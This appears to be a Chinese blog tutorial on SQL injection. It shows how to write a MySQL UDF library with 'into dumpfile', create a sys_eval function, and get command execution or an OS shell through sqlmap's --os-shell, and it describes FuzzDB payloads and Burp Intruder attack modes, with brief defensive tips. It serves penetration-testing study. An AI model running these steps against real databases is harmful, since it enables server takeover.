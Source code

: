 

# 42. SQL注入实战：UDF类型命令执行与交互

## UDF

```sql
select unhex('UDF库文件二进制内容的十六进制') into dumpfile '/usr/lib/mysql/plugin/lib_linux.so'
```

要有**写文件权限**

* `into outfile`会在行末写入新行、转义换行符，二进制可执行文件内容会被破坏
* `into dumpfile` 不对任何列或行进行终止、不执行任何转义，能导出完整可执行的二进制文件

故写udf库这种二进制可执行文件要用`dumpfile`

写入UDF库文件后，创建函数：

```sql
create functon sys_eval returns string soname "lib_linux.so"
```

SQLMap提供参数进行命令执行和shell获取

```sh
sqlmap.py -u "url" --os-shell
sqlmap.py -u "url" --os-cmd=ipconfig
```

## SQL注入命令执行防御

除了对**SQL注入本身**的检测之外：
1. 服务器**文件夹**的权限管理
2. 以最小权限应用**服务**，如apache服务

---


# 50. SQL注入实战：自动化注入之FuzzDB+Burp组合拳

**fuzzdb**：github上的开源应用程序模糊测试数据库，包含各种payload

包含命令执行、目录遍历、文件上传绕过、xss、sql注入等，还有webshell、字典

bp爆破模式：
* sniper：狙击手，使用单一词典，每次仅变更一个参数。如有两参数，先保持第二个参数不变、遍历第一个参数，然后保存第一个参数不变、遍历第二个参数
* 攻城锤：使用单一词典，多个变量同时变更为同一值
* 音叉：每个变量一个词典，三个变量同时改变
* 集束炸弹：笛卡尔积，每个变量与另一个变量所有情况的组合都测试到，多个字典情况下测试时间非常漫长


> ***`//End of Article`***


![公众号二维码](https://neptliang.github.io/img/Article/WeChatBlog.png)